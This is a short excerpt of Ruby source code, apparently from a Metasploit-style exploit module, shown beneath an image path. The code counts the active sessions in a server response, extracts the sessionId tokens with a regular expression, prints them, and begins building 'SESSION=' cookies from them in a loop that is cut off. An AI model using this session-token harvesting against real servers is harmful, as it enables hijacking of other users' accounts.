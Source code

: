 ```
    sescount = count_user(res.body,'"name"')

    print_good("Currently #`{`sescount`}` active sessions have been detected.")

 

    cookies = res.body.scan(/sessionId":"([\S\s]*?)","action/)

    puts cookies

    $i = 0

 

    while $i &lt;= sescount  do

       sessloop = cookies[$i]

       sessid = "SESSION=" + sessloop.to_s

       cookie = sessid.split('"]').join('').split('["').join('')

       $i +=1

```